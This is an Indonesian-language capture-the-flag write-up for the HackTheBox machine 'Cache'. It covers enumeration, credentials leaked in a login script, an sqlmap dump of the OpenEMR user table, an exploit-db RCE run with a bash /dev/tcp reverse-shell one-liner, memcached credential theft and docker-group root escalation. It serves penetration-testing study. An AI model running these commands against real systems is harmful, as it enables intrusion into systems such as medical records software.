









# Cache (Linux)



HackTheBox Cache dengan operating system Linux. Sepertinya challenge kali ini akan banyak menggunakan exploitasi berdasarkan CVE yang sudah ada.

### Enumeration

Mari kita mulai dengan port scanning menggunakan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 11:01 EDT
Nmap scan report for 10.10.10.188
Host is up (0.061s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| vulners: 
|   cpe:/a:openbsd:openssh:7.6p1: 
|_    	CVE-2014-9278	4.0	https://vulners.com/cve/CVE-2014-9278
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.188
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.188:80/contactus.html
|     Form id: fname
|     Form action: contactus.html#
|     
|     Path: http://10.10.10.188:80/login.html
|     Form id: loginform
|_    Form action: net.html
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /login.html: Possible admin folder
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|     	CVE-2019-0211	7.2	https://vulners.com/cve/CVE-2019-0211
|     	CVE-2018-1312	6.8	https://vulners.com/cve/CVE-2018-1312
|     	CVE-2017-15715	6.8	https://vulners.com/cve/CVE-2017-15715
|     	CVE-2019-10082	6.4	https://vulners.com/cve/CVE-2019-10082
|     	CVE-2019-10082	6.4	https://vulners.com/cve/CVE-2019-10082
|     	CVE-2019-0217	6.0	https://vulners.com/cve/CVE-2019-0217
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	CVE-2020-9490	5.0	https://vulners.com/cve/CVE-2020-9490
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2019-10081	5.0	https://vulners.com/cve/CVE-2019-10081
|     	CVE-2019-10081	5.0	https://vulners.com/cve/CVE-2019-10081
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2019-0196	5.0	https://vulners.com/cve/CVE-2019-0196
|     	CVE-2019-0196	5.0	https://vulners.com/cve/CVE-2019-0196
|     	CVE-2018-17199	5.0	https://vulners.com/cve/CVE-2018-17199
|     	CVE-2018-17199	5.0	https://vulners.com/cve/CVE-2018-17199
|     	CVE-2018-1333	5.0	https://vulners.com/cve/CVE-2018-1333
|     	CVE-2018-1333	5.0	https://vulners.com/cve/CVE-2018-1333
|     	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
|     	CVE-2019-0197	4.9	https://vulners.com/cve/CVE-2019-0197
|     	CVE-2019-0197	4.9	https://vulners.com/cve/CVE-2019-0197
|     	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993
|     	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993
|     	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
|     	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
|     	CVE-2018-11763	4.3	https://vulners.com/cve/CVE-2018-11763
|_    	CVE-2018-1283	3.5	https://vulners.com/cve/CVE-2018-1283
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=9/7%OT=22%CT=1%CU=39053%PV=Y%DS=2%DC=T%G=Y%TM=5F564C02
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=110%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R
OS:=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   52.03 ms 10.10.14.1
2   52.22 ms 10.10.10.188

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.18 seconds
```

Service yang berjalan adalah HTTP dan SSH, box yang cukup straightforward nampaknya sekilas. Mari kita coba lihat website yang ditampilkan



Tidak ada hal yang menarik, maka penulis menjalankan dirbuster

```
/
/icons/
/jquery/
/icons/small/
/javascript/
/index.html
/news.html
/login.html
/contactus.html
/author.html
/net.html
/jquery/functionality.js
/icons/README.html
```

Terdapat javascript functionality yang sepertinya menghandle login pada page tersebut

```
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
    $("#loginform").submit(function(event) {
        /* Act on the event */
        error_correctPassword = false;
         checkCorrectPassword();
         error_username = false;
         checkCorrectUsername();


        if(error_correctPassword == false && error_username ==false){
            return true;
        }
        else{
            return false;
        }
    });
    
});
```

Kita bisa login namun diberikan tampilan yang kosong


Sedikit enumeration lagi kita bisa menemukan virtual host hms.htb pada page author



### User

hms.htb ternyata menggunakan OpenEMR, sebuah software management untuk rumah sakit dan semacamnya.

Terdapat sebuah dokumentasi yang berisi vulnerabilities yang ada di versi openEMR ini, bisa ditemukan di [https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf)

Ternyata ada vulnerability SQLi, mari kita coba simpan log filenya dan gunakan di SQLmap

```
GET /portal/find_appt_popup_user.php?providerid=&catid=test HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close                                                                                                                                                                                                                          
Cookie: OpenEMR=vj9s8idk29713psb4fkdvr5hu1; PHPSESSID=fq3jsve7gpqij5o38okvuoaa1t                                                                                                                                                           
Upgrade-Insecure-Requests: 1                                                                                                                                                                                                               
Cache-Control: max-age=0
```

```
sqlmap -i sqli_burp -D openemr -T users_secure --dump
```



Setelah di crack dengan menggunakan JTR kita bisa melihat password asli dari openemr_admin



Kita bisa login ke menu dashboard admin dan melanjutkan exploitasi openEMR untuk melakukan RCE dan mendapatkan reverse shell.

Sebuah POC script sudah dibuat dan tersedia di exploitdb untuk melakukan RCE, bisa ditemukan di [https://www.exploit-db.com/exploits/45161](https://www.exploit-db.com/exploits/45161)

```
python rce.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.2/1234 0>&1'
```

Dan kita mendapatkan shell



Setelah merubah shell www-data menjadi interactive shell dan login sebagai ash, kita berhasil mendapatkan user.txt

### Root

Enumeration sejenak kita bisa mengetahui ada service memcached yang berjalan di lokal (port 11211)

```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

Referensi exploitasi memcahced bisa ditemukan di [https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)



Kita mendapatkan user dan password baru yang bisa kita gunakan untuk SSH ke box nya



Command id menunjukkan bahwa Luffy termasuk dalam group docker(999)

Maka luffy bisa membuat docker, dengan referensi dari GTFOBins, kita bisa menjadi root !



# Rooted !